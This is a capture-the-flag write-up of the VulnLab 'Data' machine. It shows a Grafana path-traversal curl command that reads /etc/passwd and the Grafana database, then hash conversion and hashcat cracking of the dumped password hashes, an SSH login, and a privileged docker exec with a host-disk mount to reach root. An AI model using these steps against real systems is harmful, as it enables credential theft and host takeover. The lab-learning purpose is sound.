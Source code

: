 ```yaml
---
title: VulnLab -- Data Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [web exploitaion]
image:
    path: ../images/Data-banner.png
---
```

# Data

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Data** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.
![image.png](../images/data-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,3000 --min-rate=1000 10.10.100.171
```

![image.png](../images/data.png)

Now let’s open the website that is working on port 3000

![image.png](../images/data%201.png)

Notice that its running grafana v8.0.0

![remo.png](../images/data%202.png)

Notice that it’s vulnerable to File Read so let’s download the exploit and run it.

```bash
python3 exploit.py -H http://10.10.100.171:3000
```

![remo.png](../images/data%203.png)

> Notice that we got the content of the /etc/passwd file
> 

Now let’s save the grafana database.

```bash
curl --path-as-is http://10.10.100.171:3000/public/plugins/welcome/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```

![remo.png](../images/data%204.png)

now let’s enumerate the database for interesting things.

![remo.png](../images/data%205.png)

notice that there was a table named user.

Now let’s dump it.

```bash
select * from user;
```

![remo.png](../images/data%206.png)

now let’s go and use grafana2hash to make the hash that we can crack

```bash
go run Grafana2Hash.go 7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8 YObSoLj55S
go run Grafana2Hash.go dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8 LCBhdtJWjl
```

![remo.png](../images/data%207.png)

now let’s crack those hashes

```bash
hashcat -m 10900 crackme.txt /usr/share/wordlists/rockyou.txt
```

![remo.png](../images/data%208.png)

> Notice that we got the password do the user Boris
> 

now let’s login to the SSH

![remo.png](../images/data%209.png)

> notice that we got initial access and we can now get the user.txt
> 

Now let’s try elevating our privilege.

```bash
sudo -l
```

![remo.png](../images/data%2010.png)

notice that we can execute commands in docker as root.

now let’s enter the container.

```bash
sudo /snap/bin/docker exec --privileged --user 0 -it grafana /bin/bash
```

![remo.png](../images/data%2011.png)

Now let’s check the disks.

```bash
fdisk -l
```

![remo.png](../images/data%2012.png)

Now let’s mount this disk in our continer.

```bash
mount /dev/xvda1 .
```

![remo.png](../images/data%2013.png)

> For some reason my docker is broke and the ls command is not working 😟
> 

But! since I know that I mounted it now lets try to enter the root directory.

```bash
cd root/
```

![remo.png](../images/data%2014.png)

and now let’s get the flag.

![remo.png](../images/data%2015.png)

and we did it! we Pwned data from vulnlab

![remo.png](../images/data%2016.png)

I hope you enjoyed my solution hope we meet in future writeups and goodbye for now

Yours Remo

CRTE | CRTO | CRTP | eWPTX